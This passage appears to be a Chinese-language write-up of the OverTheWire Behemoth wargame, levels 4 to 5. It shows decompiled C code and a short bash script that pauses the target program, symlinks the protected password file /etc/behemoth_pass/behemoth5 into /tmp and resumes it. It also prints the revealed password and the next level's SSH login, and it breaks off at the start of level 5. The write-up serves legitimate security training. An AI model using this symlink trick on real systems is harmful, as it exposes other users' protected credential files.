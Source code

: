 ```cpp
    sleep(1u);
    puts("Finished sleeping, fgetcing");
    while ( 1 )
    {
      c = fgetc(stream);
      if ( c == -1 )
        break;
      putchar(c);
    }
    fclose(stream);
  }
  else
  {
    puts("PID not found!");
  }
  return 0;
}
```

可以看出程序逻辑大概是: 读文件"/tmp/$pid"，并输出。如果没有要读的文件就退出。

所以思路就是在程序开始时将他挂起(kill -STOP命令)，然后创建密码软链接,然后让程序接着执行，让他读出包含密码的文件。写个test.sh脚本：

```bash
/behemoth/behemoth4& # 后台执行
PID=$! # $! 得到最近一次后台执行的命令的pid
kill -STOP $PID
ln -s /etc/behemoth_pass/behemoth5 /tmp/$PID
kill -CONT $PID
echo $PID
```

---

关于`$!`可以参考[In Bash scripting, what's the meaning of " $! "?](https://unix.stackexchange.com/questions/85021/in-bash-scripting-whats-the-meaning-of)

---

总的过程:
```sh
behemoth4@behemoth:~$ vim /tmp/demo.sh
behemoth4@behemoth:~$ bash /tmp/demo.sh
24945
behemoth4@behemoth:~$ Finished sleeping, fgetcing
aizeeshing
```

## Behemoth 05

**SSH :** ssh behemoth5@narnia.labs.overthewire.org -p 2221

**Pass :** aizeeshing

日常dump下来：
